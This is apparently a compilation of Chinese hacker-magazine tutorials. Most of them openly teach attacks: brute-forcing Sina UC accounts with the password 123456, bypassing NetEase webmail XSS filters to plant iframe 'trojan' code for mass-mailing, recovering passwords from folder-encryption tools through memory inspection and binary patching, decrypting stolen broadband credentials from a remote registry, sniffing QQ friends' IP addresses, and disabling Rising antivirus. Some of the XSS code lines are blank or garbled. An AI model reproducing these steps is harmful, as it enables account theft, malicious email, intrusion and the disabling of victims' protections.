## 盗取UC号码之简单异想

无敌小龙

爱好黑客技术的小黑们一定盗过 QQ 号吧，但是如果要让他们去盗 UC 号的话，就会发现无从下手，这主要是因为没有人公布过盗取 UC 号码的软件。今天我就给大家介绍一种盗取 UC 号码的方法。

> **小知识：新浪UC聊天软件是什么？**
>
> 新浪UC是国内较早投入研发的一款即时通讯软件，集传统即时通信功能于一体，是融合 P2P 思想的新一代开放式网络即时通信娱乐软件。

首先我们打开 EXCEL 或 WPS 表格，输入一个正确的 UC 号码和任意号码，后面输入四个“-”字符，如图1；选择“编辑”菜单下“填充”，然后选择“序列”，如图2。在弹出的“序列”对话框中，将“步长值”设为 1，然后点击“确定”按钮，如图3。


经过上面的设置后，把鼠标定位到第一个号码单元右下角，也就是“52415566----”这个单元格的右下角。定位成功后，鼠标会变成一个十字架的形状，此时按住鼠标左键向下拖动，如图4。


我拖动了 1200 个单元格，也就是形成了 1200 个号码，如图5。在拖动出的所有号码上按下“Ctrl+C”组合键，也就是把所有内容复制到剪贴板中，然后新建一个记事本文件，并把剪贴板中的内容粘贴到记事本中，如图6。

选择记事本“编辑”菜单下的“替换”，如图7。在弹出的“替换”对话框中，“查找内容”栏填入“----”，“替换为”栏填入“----123456”，如图8。


著名的阿拉 QQ 大盗就有这个功能。在这样的盗号软件中，有一个 ASP 收信功能，如果使用这样的收信方式，接收到的账号和密码就是“账号”+“——”+“密码”的形式，UC 号码也是一样的。在填写好内容后，点击“全部替换”按钮进行替换，如图8。

全部替换完成后，记事本中的内容就变成了如图9所示的这样，把这个记事本文件保存为 UC.TXT。现在请出“UC挂机助手”，选择“UC挂机助手”中的“导入号码”，在弹出的“导入UC号码”对话框中找到刚才保存的 UC.TXT 文件，如图10。

然后点击“UC挂机助手”中的“开始挂机”（点击后就变成了“停止挂机”按钮），不一会儿，我们就会看到一些密码设置为 123456 的 UC 号码登录成功了，只要在软件中显示出了该 UC 号码的在线时间，就表示该 UC 号码的密码为 123456，如图11。设置弱口令实在是对自己网络账户的不负责任，小菜们一定要引以为鉴！

现在我们打开“UC用户登录程序”，在其中输入刚才得到的 UC 号码和密码，点击“登录”后就会成功登录了，如图12。就这样一个 UC 号码轻轻松松地就到手了！

### 看我免费用瑞星

司徒浩昊 / 张超

瑞星在国外推出了完全免费的瑞星国际版，其实这一版本是全功能的，我们只要将简体中文语言包复制到安装目录中的指定文件夹内就可以实现简体中文环境了，然后就可以免费使用和升级了。

瑞星国际版本的下载地址是 http://www.freerav.com/，如图1。在安装国际版时要选择繁体中文语言，如图2。安装完毕后先别重启系统，把“重新启动电脑”前的勾去掉，然后点“完成”，如图3。


如果我们已经安装了繁体版，需要在主动防御里关闭自我保护。打开瑞星的主程序，点击“设定”——“防御设定”，输入验证码后就来到了主动防御设定的界面，我们把最下面一项“启动自我保护”前的勾去掉，然后“确定”，最后将简体中文语言包内的文件复制到安装目录中的 Language 文件夹内，重新启动计算机。重启后我们再打开瑞星，就会发现它已经变成简体中文版了，如图5。点击“软件升级”，把病毒库升级到最新，接下来就可以免费使用和升级了。

（文章中涉及到的简体中文语言包已经收录在光盘中）

### 将校园共享进行到底

张无忌

我们学校使用了一个 DrCom 服务器，强制所有人必须下载 ishare.user 后才能正常上网。该软件主要防止共享宽带上网和通过路由器共享上网。对于电信的这种卑鄙行为，我们怎么能够屈服呢？

再来简单介绍一下 ishare.user 的工作原理。在我们使用 PPPoE 拨号后，Drcom 服务器首先检查我们是否安装了能够正常工作的 ishare_user.exe，如果没有安装，则强制安装。现在的版本是 3.49。ishare user 的功能就是不断告诉服务器，此客户端没有共享，可以提供上网服务。它是怎么知道客户端没有使用共享上网的软件呢？我们使用 OD 载入程序，按 Ctrl+N 后发现它调用了 CreateToolhelp32Snapshot 这个函数，如图1。它的作用就是建立进程快照后通过循环调用 Process32Next 实现进程枚举。

至此我们已经大概知道了 ishare_user 的工作原理。具体原理是这样的：Ishare_user 通过设定一个或多个定时器，只要时间一到就会检查进程中是否有可疑进程，如果有的话就会断网并警告用户不要使用代理软件。明白了它的工作原理后，我们就开始对它动刀吧！

现在回到 ishare_user 最关键的一步，也就是如何判断某个进程为可疑进程？我们进行一个简单的实验，直接运行 SinforNAT，并启动服务，过不了几秒钟，ishare_user 就开始喊冤了。再加上刚才的 CreateToolhelp32Snapshot，我猜测它是通过判断某进程名来实现的。为什么会这么猜测呢？我简单描述一下进程快照的实现：首先通过 Create 建立一次快照，然后通过 Process32Next 来查找快照中的进程。Process32Next 中的一个参数就是 Create 返回的句柄，另外一个是将查找到的每个进程的信息全部保存至 PROCESSENTRY32 中。微软对 PROCESSENTRY32 的定义如下：


```c
typedef struct tagPROCESSENTRY32 {
    DWORD   dwSize;
    DWORD   cntUsage;
    DWORD   th32ProcessID;
    ULONG_PTR th32DefaultHeapID;
    DWORD   th32ModuleID;
    DWORD   cntThreads;
    DWORD   th32ParentProcessID;
    LONG    pcPriClassBase;
    DWORD   dwFlags;
    TCHAR   szExeFile[MAX_PATH];
} PROCESSENTRY32, *PPROCESSENTRY32;
```

其中我们关心的就是 szExeFile 和 ProcessID。


Ishare_user 来说，ProcessID 是没有用的，因为电脑重启后共享软件的 PID 就会发生变化，唯一不变的就是 s2ExeFile，任务管理器把它叫作映像名称。这样就可以肯定 ishare_user 是通过进程名称来实现可疑进程的判断。再回到未修改的 ishare_user，发现使用共享后的错误界面如图2所示，看到这个界面，我马上就想到判断应该在这个之前。

我在 W32Dasm 中搜索“错误”，并没有搜索到，但是使用 WinHex 却找到了。这时候我突然想到了 NGNAT.exe，会不会在 exe 文件中呢？带着这个疑问我在 WinHex 中搜索了一下，不仅找到了 NGNAT，而且也找到了 sygate，如图3。

看来 ishare_user 就是通过判断进程名是否和这里存储的值相等来判断的了。看到这儿我笑了，马上把 6E 改为 00，当然这里你随便改多少都可以，顺便也把 sgserv 改了。

此时我还担心它是否有文件校验，点击保存后图标没有变，把以前的 ishare_user 结束掉，运行新的程序，拨号上网一切正常，运行 SinforNAT 并启动服务，此时那个错误提示不见了，至此破解就完成了。


（本文所涉及到的 WinHex、Dr.COM ClientPPOE3.49、ishare_user、SinforNAT 已收录到光盘中）

### 将秘密镶进 DLL 里

懒惰少女

大家都知道不少隐藏私密信息的方法吧，比如在 CMD 命令下利用 COPY 命令和位图文件进行合并，或者是建立特殊的文件夹，或者是利用加密工具来防止陌生人查看私密信息等。而我要给大家介绍一种别的方法，就是利用 Restorator 这个工具将私密信息装进 DLL 文件里。制作过免杀的朋友对于 Restorator 应该不会陌生吧，它是一款功能强大的资源编辑器。大家有没有注意到，有时当我们使用 Restorator 打开 DLL 文件，查看字符串的时候会发现什么？比如使用 Restorator 打开 C:\WINDOWS\system32 目录下的任意 DLL 文件，查看其字符串信息，是不是看到了关于这个 DLL 文件的文字资源信息，如图1。现在大家都明白了吧，我们就是要在这里修改它的字符串信息，把它改为我们需要加密的信息，下面就跟我一起来制作私密 DLL 文件吧！

首先我们将伪造出一个 DLL 文件，打开后删除其余信息，只留下字符串这一项（不删除也可以的，只是删除了看起来会比较舒服），直接点击“编辑模式”（快捷键是 F6），把字符串信息全部删除，然后就是添加我们的私密信息了。不过在编辑的时候一定要注意，资源中的每一行由一个 ID，并且每个 ID 后面都有一个“=”，然后加上实际字符串来组成，一定要按照这种格式来写，否则会无法保存的，如图2。

修改完成后将文件保存就可以了，如果想查看的话还是利用 Restorator 打开该文件，查看字符串信息就可以了，是不是很方便也很安全啊！现在又有谁能够想到，在这些 DLL 文件中会藏着你的私密信息呢，不过你可千万别忘记是把它藏到哪儿了啊！


（本文所涉及到的 Restorator 已收录到光盘中）

### 教你利用网易邮箱来跨站挂马

废人

在网上看了几篇跨站的文章，发现跨站最终都要用到脚本语言，比如 javascript 和 vbscript。所以要想成为跨站高手，就必须要学好脚本语言。这次我要测试的是网易的邮箱，网易邮箱有很多种，包括 mail.163.com、mail.126.com、mail.yeah.net 等，它们不但界面美观大方还免费赠送网盘，可以说是目前网上最好的免费邮箱了。

我们先使用 mail.163.com 来进行测试，跨站可以先用常用的简单跨站语句来做“探路先锋”，比如 ``、``、`</iframe>')'>` 等。

```html

</iframe>')">

```

编辑完成后发送邮件给自己，打开自己发送过来的邮件，查看源码后发现被改成了：

```html

</iframe>')'>
```

对比后发现关键字 javascript 被替换成了 java_script，onerror 被替换成了 on_error，并且删除了 expression 以及其后的语句。我想这就像杀毒软件用特征码辨别病毒一样，邮箱以“javascript”“onerror”等为“特征码”进行了过滤，那我们也就像免杀所用的修改特征码的方法那样来修改一下我们的跨站代码，看它能否达到躲过过滤的目的。将上边的代码以 `&#xx` 的编码形式进行修改，修改后的代码如下：``，测试后发现还是被过滤掉了。此时我想起来网上以前曾经介绍过使用全角字符来进行突破的，于是就把这段代码 `` 修改成了 ``（其中 x 是全角字符），测试后成功弹出了窗口，如图1，而且这个窗口是无法关闭的。


这下似乎找对方向了，写入挂马代码 `</iframe>'))">`，成功嵌入了百度页面，如图2。查看下源文件，发现被过滤了 `<iframe src=http://www.baidu.com></iframe>`，看来过滤并不是很严格的；利用 javascript 中的 insertAdjacentHTML() 函数重新写入代码 `<b style="feiren:e x pression(document.body.insertAdjacentHTML('afterbegin','<iframe width=200 height=200 src=http://www.baidu.com/></iframe>'))"></b>`，成功写入并且能控制框架的大小，如图3。查看源文件代码，发现完全没有被过滤，`<b style="feiren:e x pression(document.body.insertAdjacentHTML('afterbegin','&lt;iframe width=200 height=200 src=http://www.baidu.com/&gt;&lt;/iframe&gt;'))"></b>` 被原封不动地执行了。接下来我又使用上述代码分别测试了 mail.126.net 和 mail.yeah.net，同样成功地执行了挂马代码，如图4、图5。下面的事情就不用我说了吧，快去群发挂马邮件来抓肉鸡去吧！


## 黑客木马补习

### 什么是提权（提升权限）

现在的操作系统为了安全性，都引入了权限这个概念。那么，到底权限是什么呢？我们举个简单的例子来说明吧。比如系统管理员设置甲用户只允许访问 A 目录，设置乙用户只允许访问 B 目录，那么甲用户是不能访问 B 目录的，而乙用户也是不能访问 A 目录的，他们更不允许来更改这个设置，这就是权限。那么，倘若甲用户或乙用户利用系统中的安全漏洞或是别的方法使得自己突破了原来的限制，能够非法访问对方目录，甚至是使得自己能够像管理员那样来获取对整个系统的控制，这就是提权。

### 解决 WinXP 重装后原文件夹拒绝访问的故障

因为病毒的原因我就重装了 XP 系统，但重装后却发现“我的文档”中的一些文件打不开了，老是提示拒绝访问。XP 原来是安装在 C 盘的，而“我的文档”在原来的 XP 系统中是调整到了 D 盘的一个文件夹，当时这样做的目的是为了避免重装系统时忘记备份而将我的文档中的内容格式化掉。记得原来在单位使用电脑时也遇到过类似的情况，只是当时没什么重要的文件，也就没有想办法去解决这个问题。可现在情况不一样了，那里有许多重要的文件，而且当时将这个文件设为专用了，这可能是造成“拒绝访问”的原因。我查了一下，果然不只“我的文档”中的一些文件，以前设为专用的一些文件夹都拒绝访问，推断是由于同一原因造成的。

是不是再新建一个同样名称的用户就能访问呢？经过实验，这样是不行的，因为在 XP 系统中，每个用户都有一个唯一的 SID。我于是到网上搜索了一下，原来有许多朋友也遇到过这种问题，而且也有许多热心的朋友提供了多种解决方法。

经参考各路资料并总结，现贡献给各位，希望对遇到同类问题的朋友有所帮助。


- 1. 以具有管理员权限的用户登录 XP 系统，在资源管理器中打开“工具 -> 文件夹选项”，在“查看”中取消“使用简单文件共享”等选项。
- 2. 右键单击原来设为专用的文件夹（如“386-sp2”），选择“属性”，进入安全相关设置。
- 3. 点击“高级”按钮，在高级安全设置中把所有者改为当前用户，并应用到子容器和对象。


选中下方的“替换子容器及对象的所有者”，单击“应用”按钮，就会看到一个取得文件夹中文件和文件夹所有权的过程。现在问题就解决了。

### 文件夹加密，你真的安全吗？

随着文件加密技术的日新月异，对比以往的文件夹隐藏技术，已经被文件夹加密技术所代替。更多的用户选择文件夹加密这种方式，既保护了用户资料，同时也秀一把自己的计算机应用能力。那么文件夹加密是如何实现的？它是否真的安全呢？本文将带你一起探讨这个问题。我特意挑选了两款应用非常广泛的文件夹加密工具：金锁文件夹加密特警和宏杰文件夹加密。

#### 一、“金锁文件夹加密特警”篇（WINCPH）

这是一款成名多年的综合性加密工具，其便捷的操作及强大的功能赢来了很多忠实的用户。我选用的是 wincph6.08 破解版，直接来看文件夹加密功能吧。首先打开 wincph 的文件夹加密功能，选取一个文件目录，输入密码后就能实现文件夹加密。我们打开这个加密文件夹看一下效果，如图1。


随便输入一个口令，出现错误提示，这时候我想到了古老的内存明文漏洞，那么如何利用呢？我们不要点“确定”，打开内存编辑工具 WinHex，点击功能按钮的“栅子”图标，此处实现 RAM 编辑功能，在内存区域选择“Enf”，然后点击“整个内存”，如图2。进入内存编辑后，在菜单栏的“搜索”-“查找文本”中随便输入一个错误密码，我输入的是 878787，确定搜索文本后……


我们来到第一处，没有发现对比的明文密码，再按一次 F3 键搜索下一处，真实密码现形了，如图3。到这里我们就实现了破解文件夹的解密功能，并且得到了正确的密码。


这里又引发了一个问题，文件夹解密后，我们关闭程序自带的一个 FORM 窗体，文件夹则会再次自动加密。


这个监视进程后，当前加密文件夹则会完全解密。不过计算机的主人到底设置了多少个加密目录，我们只有通过主程序才能获知，而这些正是我们所关心的。


虽然得到了加密文件夹的密码，但是主程序也有一个超级管理密码，如果两个密码不同呢？带着这个问题我使用 OD 跟踪判断了一下：超级管理密码存放在 HKEY_CURRENT_USER\Software\wincph\Configure 键的 masterpassword 下，键值是 md5 加密的 32 位 hash 值。

#### 二、“宏杰文件夹加密”篇

宏杰文件夹加密是一款免费软件，界面较美观，程序上手性强。使用该软件加密后，文件夹图标不会改变，同时支持“临时解密”“完全解密”和管理密码等功能。

同样使用 WinHex 查内存明文的方法对这个程序试了下，不过行不通。那么就直接对主程序进行分析吧，使用 PEiD 检测程序为未知壳，看来程序进行了保护措施。我们使用 OD 载入该程序，在汇编区窗口右键选择“ultra string reference”→“find ASCII”来查找字符串，按 Ctrl+F 查找“输入的密码不正确”，可以找到两处错误提示信息，如图6。第一处是主程序内部判断文件夹解密的字符串，而第二处才是我们打开文件夹后的错误提示地址。我们双击这里来到代码行，部分代码如下：


```asm
0040F819  E8 C4310400    call 004529E2
0040F81E  89C40400       add  esp,8
0040F821  85C0           test eax,eax
0040F823  74 1D          je   short 0040F842
0040F825  6A 00          push 0
0040F827  6A 30          push 30
0040F829  68 40724700    push 00477240
; 输入的密码不正确，本次解密保护失败！
```

看来 0040F819 是一个关键的 call，我们可以在此处下断。可是问题来了，程序此时不进行判断，我们如何利用呢？我们可以利用 OD 的附加功能来打开内存，先打开加密文件夹让程序载入内存，然后打开 OD，选择“文件”菜单下的“附加到进程”，选择 hjjm 这个进程后点“附加”，如图7。

载入后我们按 Ctrl+G 跳到 0040F819 这个地址，按 F2 键下断，此处地址变红代表断点成功。我们按 F9 运行一下程序，窗体就可以输入了，输入错误的密码 878787，注意这里要点一下“临时解密”！

程序被断下来了，我们在堆栈区已经看到密码了，如图8。看来破解同样很简单。对于程序的管理员认证密码，这里我就不再赘述了，大家可以参考破解文件夹加密的步骤进行操作。

宏杰文件夹加密虽然没有在内存处显示明文密码，但是破解起来也是很容易的。其实我们可以对比错误提示在字符串里对应查找，来到该地址后，只需把代码上方处的 je 改为 jnz，就能实现完美爆破。随文附带一个我制作好的完全破解程序，此程序可以不受限制地去除管理员密码和取消文件夹加密，可在忘记密码的前提下使用。

#### 三、ICESWORD（冰刃）通杀篇

有些朋友可能会纳闷，难道非要破解吗？答案是否定的。这里我不得不说一下软件加密文件夹的工作机制和原理。文件夹本身不能加密，工具只是把目标文件夹转移到一个相对安全和隐藏的地方（这里所谓安全的地方是指在正常模式下无法访问到的地方），然后自身伪装成原来的目录，解密后将原文件调回到原来的目录，就是这么简单，颇有狸猫换太子的味道。那么它藏到哪里了？宏杰文件夹加密提醒我们：“recycler88 文件夹非常重要”，可真是此地无银三百两呀。

这里我利用上文介绍的两款工具分别对两个文件夹进行加密，打开 IceSword 进入文件管理功能：已经可以非常清晰地看到宏杰和金锁两位兄弟伪装的目录扩展分别为 hjm 和 enf，这种扩展只有它们自身才能调用。宏杰文件夹加密的目录隐藏在对应磁盘的 recycler88 目录下，而金锁文件夹加密则为 recycled 目录，我们只需依次展开就能看到了，如图9。当我们需要查看时，只需要在文件处点右键复制出来就行了（这里不支持文件夹复制），当然我们也可以利用 Wsyscheck 的文件管理功能成功复制出文件夹，对于其它加密工具我们可以采取相同办法。

对于如实文件夹的保密性到底如何呢，我又不得不对其安全性担忧。虽然文件夹不能删除，但是一旦被转移到其它目录，就无法达到解密的效果了。如你建立一个 1..\ 的目录，虽然无法删除但是可以移动。这样一来，无意的操作甚至就有可能变成恶意的破坏，就有可能导致不可预知的结果。经过测试，一个提示密码错误，一个提示文件已经不存在。显而易见，原本的安全工具却又变得如此不安全，所以真正的安全和保密还是依靠意识和知识。

### 利用星空极速来盗取宽带密码

10℃警言


以前看过很多关于刷 QQ 业务的教程，先是使用灰鸽子开代理，然后使用得到的宽带账号和密码进行消费。但是目前使用星空极速（星空极速是中国电信为反路由共享而推出的一款拨号软件，主要是利用加密账号和密码进行拨号，使传统的拨号失效，从而达到反路由共享上网的目的。）的用户不能再使用系统自带的拨号软件进行上网了，所以传统的获取账号密码的软件也就失效了。不过没关系，下面就看我如何来突破它吧！湖北电信所使用的星空极速为 3.0 版本，虽然个别地区也有使用 3.2 版本的，但是突破的方法都一样。

会和我一样为了每次上网的方便，都会把拨号上网的“保存密码”给勾选上吧（图1）。切换到拨号旁边的“互联星空”，发现密码也同样被保存了。我们来查找密码被保存的地方吧，我原以为是保存在安装目录下的，通过文件监视却没有发现任何有利用价值的信息，最后只好转向了注册表，原来账户信息……


## 傻瓜黑客

总是保存在 `HKEY_LOCAL_MACHINE\SOFTWARE\Shlingtong\Gnet_pppoe2\Account` 项中的。打开后发现 Account 项下的 1210471385 和 1210471386 两个键值的二进制值内容一样，估计这就是拨号和互联星空中的帐号和密码了（图2）。显示出的为加密后的字符串，这也是意料之中的事情，要是注册表中明文显示帐号和密码，那电信就真的不用再混了。我们要如何解密呢？


还是使用星空极速，首先将 Account 项导出来，接着把星空极速卸载掉，然后再安装星空极速 2.1 版，安装完成后将 Account 项导入后再运行，这时 2.1 版的界面上就会显示出两个帐户（图3）。我们随便选择一个点鼠标右键→编辑帐号，然后使用输入框密码查看器就可以查看到明文密码了（图4）。


为什么会出现这样的漏洞呢？估计是电信考虑到有些用户升级不便，因此就没有改变加密算法，这样就导致了我们可以利用带有漏洞的低版本程序来进行解密。我们只需要获取远程主机的注册表信息，就可以成功得到宽带的帐号和密码了，详细操作请大家参照演示教程。

（本文所涉及到的输入框密码查看器、星空极速 2.1 版以及演示教程已经收录到光盘中）

### 锁住你的 Internet

无敌小龙

#### 一、程序的安装

不论是自己的电脑还是公司的电脑，有时可能需要禁止特定的程序来访问因特网，那么如何才能做到这点呢？今天我就给大家推荐一款名叫 Internet Lock 的软件，它可以锁住你的因特网，只让特定的程序访问网络，并且可以设置密码，只有填写了正确的密码后才能访问网络。它是一个 Internet 和 Intranet 连接的访问控制软件，能拒绝任何程序以任何的 TCP/IP 端口去访问 Internet/Intranet。

我们双击运行安装程序，在安装过程中会要求填写密码，这里输入的密码是管理员密码，也就是下次登录 Internet Lock 时的密码，如图1。


#### 二、程序的使用

上面介绍了程序安装和管理员密码的设置，接下来介绍如何使用这款强大且方便的网络控制工具。在输入管理员密码成功登录 Internet Lock 后，就可以进入它的主界面了，如图3。我来教大家如何使用这款工具禁止常见的网络程序。

##### （一）禁止 QQ

首先在 Internet Lock 的主界面中单击“ADD”（添加）按钮，此时会弹出一个添加规则窗口。点击“Browse”按钮，在弹出的浏览对话框中找到 QQ 的主程序 `QQ.EXE`，选择“Single Port”，在其后的“Port”框中填入“8000”（腾讯服务器的端口），如图4，然后点击“change”按钮设置一个密码，这样当需要正常访问网络时就要输入正确的密码才行。


图4


图8


图5

经过这样设置后，`QQ.EXE` 一旦连接到腾讯服务器，就会弹出如图5所示的窗口，如果没有填写正确的密码，它就会在一分钟后自动和服务器断开连接。此时我们在 QQ 群中发送图片就会发现，一旦发送图片就会提示“连接群文件传输服务器失败，您刚才发送的消息：[图片] 没有发送成功”的提示，如图6。


图6

不过这里要注意一下，QQ 是无法使用网络监控软件完全限制登录和收发消息的，原因有以下两点：

- 1. 如果禁止了 QQ 的 UDP 连接，QQ 就会自动尝试进行 TCP 连接，因为我们浏览器也要使用 TCP 协议，所以没有办法完全禁止。
- 2. 如果禁止了 QQ 客户端本地监听的 4000 端口，QQ 就会自动尝试监听本地的 4001、4002、4003……端口；如果禁止了 QQ 服务器的 8000 端口，QQ 客户端甚至可以连接服务器的 80 端口来进行通信。


图7

所以使用限制网络的方法对 QQ 只能是百密一疏！但是我们可以通过“port range”（端口范围），在端口上面的输入框中输入 1，在下面的端口输入框中输入 60000，如图7，这样就可以禁止 QQ 所有的连接尝试了，一旦连接马上就会提示要求输入密码，只有输入了正确的密码才能继续连接网络，从而通过干扰 QQ 的正常使用达到“禁止上网”的目的。


图11


图12

##### （二）禁止 IE

同样是点击主界面中的“ADD”按钮，在弹出的对话框中点击“Browse”按钮找到 IE 的文件路径，一般是 `C:\Program Files\Internet Explorer\IEXPLORE.exe`，然后按照上面的方法设置一个访问网络的密码。接着在 IE 浏览器中输入一个网址，随后就会弹出图8、图9所示的提示，此时已经无法正常访问网络了。最后来到 Internet Lock 的“LOG”页面，可以看到 Internet Lock 所拦截的所有程序，如图10。


图9


图10

#### 三、密码卸载

可能有读者朋友要问了，如果对方通过卸载程序卸载掉该程序的话，那不就可以正常访问网络了吗？如图11。其实在尝试卸载 Internet Lock 时是需要密码才能完成卸载的，否则就会卸载出错，如图12！现在读者朋友们就可以放心地通过此软件来限制程序访问网络，合理地使用计算机资源了。（文中所涉及到的 Internet Lock 请到××的论坛来下载）


### 看我用图片来查你 IP 地址

无敌小龙（张博）

#### 一、查询方法

首先声明，我不是使用什么 QQ 的插件来查对方的 IP 地址。在学习完本文后，我可以保证只要你 QQ 敢上线，我就能查到你的 IP 地址！首先随便找一个 QQ 好友，最好是资料中填写了自己所在的省市，如图1。之所以选择这样的好友，是为了验证接下来查询出来的数据。既然知道了对方的地址还查什么啊！请大家不要抱怨，因为学完此招后，我可以保证在对方没有填写省市资料的情况下，大家也可以得到对方的 IP 地址。


打开著名的嗅探工具 WPE，点击“目标程序”按钮，在弹出的“选择目标程序”窗口中选择 `QQ.EXE` 进程，如图2。


然后点击开始按钮（三角形的按钮），如图3。打开 QQ 好友的聊天窗口，向他或者她发送一幅图片，如图4。在发送过程中我们可以抽出点时间查看一下自己的外网 IP 地址。在 CMD 命令提示符下输入 `ipconfig`，可以得到我的外网 IP 地址为 58.49.124.188，如图5。现在回到 WPE 中，点击停止抓包按钮（方形的按钮），可以看到 WPE 列出了所有的数据包，如图6。


好了，接下来我就教大家如何通过这些数据包来找到 QQ 好友的 IP 地址，这里有必要先给大家介绍一下抓包查 IP 地址三大定律。

- 1. **抓包规律**：一般要抓 60-70 个包，因为通常刚开始截取的几十个数据包是发向腾讯服务器的，对查询 IP 地址作用不大。
- 2. **查找规律**：自己的 IP 地址一定要在 source 列；目标数据包常表现为一个很小的包（如 12 字节）后跟一个大的包（如 10020 字节），小包常见特征为类似“......D”。
- 3. **定位规律**：显示 QQ 好友 IP 地址的数据包位置一般在第 20 个到第 50 个包之间。

经过研究发现，只要有连续两个数据包大小分别为 12 字节和 10020 字节，基本可判定是发向 QQ 好友的数据包，可从 destination 列直接找到对方 IP 地址。


读者朋友们只要熟练掌握此方法，就能快速查询出所有 QQ 好友的 IP 地址。例如在图6中第49和第50个数据包里，目标地址为 121.56.45.100；将该 IP 在 `www.123cha.com` 查询后即可得到结果，如图8。

#### 二、防御方法

使用上述方法可以轻易查出对方 IP 地址。那么如何防御？一种方法是让 QQ 处于上线但“隐身”状态，使对方无法通过图片消息等方式查询 IP。另一种方法是通过代理服务器登录 QQ，这样对方查到的只是代理服务器 IP。


## 黑客木马补习

**什么是注入点：**  
就是可以执行注入的地方，通常是可访问数据库的链接。根据注入点连接的数据库账号权限不同，得到的权限也不同；例如 MSSQL 中 SA 账号对应注入点通常权限较高，而 DB_OWNER 权限不能直接执行系统命令，但可通过其他方式提权并获取 WebShell。

## 一分钟KO瑞星
——论杀毒软件的自我保护

采客


本想在学校机房里学习使用黑客工具，可无奈机房里安装了瑞星（网络版），大家都知道，黑客工具往往都被报为病毒，所以一解压或是下载黑客工具就会被杀掉。因为当一个文件解压缩或是下载完成后，瑞星就会在后台默默地扫描该文件，可是退出实时监控又需要密码才行。本人小菜一名，使用 WinHex 琢磨了半天，愣也没破解出来；使用冰刃结束掉瑞星的进程，可几秒后电脑就自动关机了。但是工夫不负有心人，经过我不懈的努力，终于琢磨出了一个近乎完美的办法来干掉瑞星。

首先在 Windows 目录下找到 `explorer.exe`，复制两次，分别重命名为 `RavMonD.exc` 和 `RavMon.exc`。

然后运行冰刃，打开文件选项，在左边的目录树里打开 `C:\Program Files\Rising\Rav`，找到 `RavMonD.exe` 和 `RavMon.exe`，如图1。点击右键，选择强制删除。为什么要强制删除呢？这是因为这个文件正在运行当中，普通删除是删不掉的。当然大家也可以先设法结束掉它的进程，再使用普通删除的方式来删除。可见瑞星根本就没有对其文件进行保护。


图1

我们把刚才重命名后的 `RavMonD.exc` 复制进去，再按照相同的方法把 `RavMon.exe` 使用刚才重命名后的 `RavMon.exc` 替换掉。注意，操作速度一定要快，否则几秒钟后瑞星检测不到这两个文件，就会重启系统（个人版的不会重启系统）。几秒钟后我们可以看到界面已经下发这两个文件，并且这两个进程的图标也变了，如图2。

下面我们看一下瑞星被破坏到了什么程度：解压一个黑客工具（之前是被报为病毒的），马上就会弹出那个叼着 PP 的小狮子在找东西，似乎瑞星正在后台进行杀毒，然而什么都没有查出来。那么是不是瑞星的杀毒能力被彻底干掉了呢？我使用鼠标右键点击刚才解压的软件，然后选择瑞星杀毒，可以看到这回查出了病毒。可见瑞星的杀毒能力没有消失，只是刚才解压缩的时候没有调出主动杀毒程序进行后台杀毒罢了，但是却不好再调出那个可爱的小狮子。

接下来我们再测试一下瑞星的主动防御能力，手动修改注册表敏感的 run 项和 IE 首页，瑞星并没有提示阻止，可见其主动防御能力彻底崩溃了。让我们感到兴奋的是，任务栏的右边仍然有那把象征着主动防御的绿雨伞，如图3。


图2

我的设想是这样的：假如今后会出现这样一种病毒，用户感染后病毒会使用 `explorer.exe` 依次替换 `RavMonD.exe` 和 `RavMon.exe`，这样瑞星便失去了大部分的保护功能，而任务栏右方的小伞却依然还在，这就欺骗了用户的眼睛，误以为瑞星仍然忠诚地在保护着电脑，从而放松了警惕，进而让瑞星名存实亡，病毒便可以为所欲为了。因为瑞星的后台杀毒能力也消失了，病毒还可以下载其它病毒，直到用户发现瑞星已经坏掉了，而病毒早已把瑞星的卸载程序 `SetupRav.exe` 删掉了，用户无法卸载，坏的卸不掉，新的就不能安装。

杀毒软件不仅要保护自己的进程，更重要的是保护自己的文件。俗话说得好：留得青山在，不怕没柴烧！同样，留得文件在，不怕没进程。网上还有 KO 瑞星 2005 实时监控的视频，方法更简单，只是禁用服务中的 RavMonD 就好了（好在瑞星在以后的版本中对该项服务进行了保护）。可见杀毒软件只是保护进程是远远不够的！

该方法对于最新的瑞星 2008 个人版依然有效，结果完全一样。由于客观条件的限制，并没有在其它杀毒软件上进行类似的测试，有兴趣的小菜就自己试一下吧。


## 免费使用，还有金山毒霸

金山毒霸是国内一款使用非常广泛的杀毒软件，深受广大用户的喜爱。对于我们这些口袋并不充裕的小菜来说，金山毒霸在国内的免费使用时间为 888 小时，也就是 37 天，相对来说短了点。去年金山毒霸正式登陆日本市场，带去了免费的金山毒霸日文版，我们今天的对象就是它。

首先登录 `http://download.kingsoft.jp/download/download_thanks_is.html`，这是金山的日本网站，点击如图1所示的按钮进行下载，或者直接把 `http://download.kingsoft.jp/kisfree/KIS2007/37/kisu.exe` 这个地址复制到迅雷里去下载。运行下载回来的安装包，会弹出如图2所示的对话框，提示说需要安装在日文版的操作系统上，不然会发生错误，这个我们不必管它直接点“是”就行了。


图3所示的登录框，我们随便填写，然后点击“OK”，接着就可以一路默认安装下去了。注意中间会有一个安装 Yahoo 插件的提示，至于其它的和国内的安装包没什么区别。安装完毕后打开金山毒霸的主程序，会弹出如图4、图5所示界面。


图6


图9


图7


图10


图8

可以看到金山毒霸日文版的界面了，如图4。看着日文是不是很不爽？那我们就来汉化一下吧！

退出金山毒霸日文版的监控和金山网镖，把提供给大家的简体中文语言包复制到 `C:\Program Files\Kingsoft\Kingsoft Internet Security U` 目录下，把原来的 `lang` 文件夹替换掉。替换完成后重新打开主程序，即可变成中文版（部分未修改内容不影响正常使用，如图5）。

我们升级试试，点击“立即升级”，升级程序为日文，但不影响使用。一直点击下一步即可自动升级（如图6）。升级完毕后再看，引擎和病毒库与国内版一致（如图7）。毒霸设置界面、扫描界面以及金山网镖界面都已简体中文（如图8、图9、图10）。至于清理专家，因为国内清理专家是免费版，所以就不汉化了。现在，我们就可以免费使用金山毒霸了。大家还要注意，日文版免费版会有广告弹出，但不影响使用。

（本文所涉及到的简体中文语言包已收录到光盘中）


~~啊宾~~（Hack）

## 如何禁止别人来使用U盘

随着网络使用的普及，很多用户都有自己的隐私资料或是专用的黑客工具。为了安全起见，对于公司、学校、网吧等场所使用的电脑，经常需要禁用 U 盘和移动硬盘等设备，以防止资料被带走、防止学生带游戏去机房玩，防止网吧被黑等。

很多朋友会使用 USB 管理专家这类软件来限制 U 盘使用，不过此类软件通常收费。这里提供几种不使用专业软件也能禁用 U 盘的小技巧。

#### 方法一：BIOS 设置法（快刀斩乱麻法）

## 傻瓜黑客

